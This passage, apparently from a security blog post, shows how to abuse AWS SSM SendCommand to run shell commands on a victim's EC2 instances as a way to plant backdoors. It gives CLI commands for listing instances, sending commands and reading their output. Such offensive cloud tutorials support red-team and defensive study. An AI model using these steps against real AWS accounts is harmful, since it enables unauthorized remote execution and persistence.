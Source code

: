 > This technique is not different in the sense that we will be running a command on target ec2 to create backdoors. It's just a different way of achieving the same goal that we did with [Persistence - EC2 UserData Script](http://mystic0x1.github.io/posts/methods-to-backdoor-an-aws-account/#persistence---ec2-userdata-script).
{: .prompt-info}

### Tidbits
- To abuse this feature, we need at least `SSM:SendCommand` permission.
- If we want to get the output of our command as well then `SSM:ListCommandInvocation` permission will be required.
  - But for creating a backdoor we don't need to see the output :)

### Running command on target EC2 instance
We will start by first selecting a target ec2 instance and noting down its ID. To list available EC2 instances in a specific region we can use the following command:

```bash
aws ec2 describe-instances --profile victim --region eu-central-1
```

After we have the instance ID, we can proceed to run any shell command on it:

```bash
aws ssm send-command --instance-ids i-xxxxx --document-name "AWS-RunShellScript" --parameters commands="id;hostname" --region eu-central-1 --profile victim
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-06-01-SSM-RunCommand-Executed.png)
_Executing commands on ec2 instance remotely_

Note the `Commandid` from the response as it is required for our next command to show the command output:

```bash
aws ssm list-command-invocations --command-id "e76fb1b8-xxxx-xxxx-xxxx-710d0d977f66" --details --region eu-central-1 --profile victim
```
![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-06-02-SSM-RunCommand-Output.png)
_Output of our previous commands_
